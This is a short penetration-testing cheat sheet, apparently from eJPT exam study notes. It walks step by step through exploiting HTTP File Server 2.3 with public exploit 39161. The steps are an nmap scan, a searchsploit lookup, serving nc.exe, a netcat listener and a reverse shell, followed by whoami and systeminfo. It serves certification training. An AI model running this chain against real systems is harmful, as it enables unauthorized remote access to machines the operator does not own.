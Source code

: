 [[Root 𖣂]] | [[eJPT - Cheat Sheets]] | [[eJPT - README]]

<hr>

Use Searchsploit to find public exploits and modify them as needed to ensure they work in your target environment.

```shell
nmap -sV <target_IP> 
# Scan for open ports and detect services

searchsploit HTTP File Server 2.3
# Search for known exploits in Exploit-DB

searchsploit -m 39161
# Copy exploit 39161 to the current directory

vim 39161.py
# This exploit requires you to change the local IP and local port values
# ip_addr
# local_port

cp /usr/share/windows-resources/binaries/nc.exe /root/Desktop/  
# Prepare Netcat binary to be served

cd /root/Desktop
# Go to the directory where the server will run

python -m SimpleHTTPServer 80
# Terminal 1
# Start a web server to host nc.exe

nc -nvlp <your_port>
# Terminal 2
# Open a Netcat listener to catch the shell

python 39161.py <target_ip> 80
# Terminal 3
# Run the exploit against the vulnerable target

# If the exploit script runs successfully, we should receive a reverse shell on our Netcat listener
whoami 
# Check current user on the remote system

systeminfo
# Display system information from the target
```

